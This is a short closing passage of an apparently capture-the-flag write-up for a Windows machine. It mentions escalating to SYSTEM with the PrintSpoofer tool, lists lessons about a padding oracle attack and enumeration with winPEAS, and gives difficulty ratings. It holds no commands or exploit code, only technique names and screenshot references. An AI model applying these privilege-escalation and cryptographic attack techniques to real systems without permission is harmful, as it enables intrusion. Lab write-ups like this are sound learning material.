<figure><figcaption></figcaption></figure>

If I need to, getting from here to `SYSTEM` is as simple as running [`PrintSpoofer`](https://github.com/itm4n/PrintSpoofer/tree/master):

<figure><figcaption><p>Getting to SYSTEM</p></figcaption></figure>

`SYSTEM` access achieved.

## Learned

* **Padding Oracle Attack:** I knew what a CBC was coming into this and understood padding was necessary but not the mechanics (such as PKCS7). Writing a tool to brute-force plaintext was well beyond my initial understanding/capabilities though
* **Basic File Enumeration:** I started with winPEAS and then spent a bunch of time looking at exploits and services and stuff. If I had just started with some basic poking around the home directory of the current user I would have spotted `backup.rar` much earlier. Once that was found the machine was basically done
  * Use `unrar` not `7z` for `.rar` files

### Difficulty Rating

* **Foothold 10/10:** Super complex
* **Privilege Escalation 3/10:** Easy if you just look around a bit
